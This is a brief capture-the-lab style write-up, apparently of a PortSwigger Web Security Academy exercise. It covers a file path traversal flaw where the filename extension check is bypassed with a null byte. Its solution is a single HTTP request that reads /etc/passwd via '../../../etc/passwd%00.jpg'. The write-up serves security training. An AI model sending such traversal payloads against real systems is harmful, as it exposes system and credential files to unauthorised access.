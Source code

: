 # 6 - Validation of file extension with null byte bypass

> This lab contains a [file path traversal](https://portswigger.net/web-security/file-path-traversal) vulnerability in the display of product images.
>
>  The application validates that the supplied filename ends with the expected file extension.
>
>  To solve the lab, retrieve the contents of the `/etc/passwd` file.

![](../../.gitbook/assets/imagen%20%28634%29.png)

```text
GET /image?filename=../../../etc/passwd%00.jpg HTTP/1.1
```



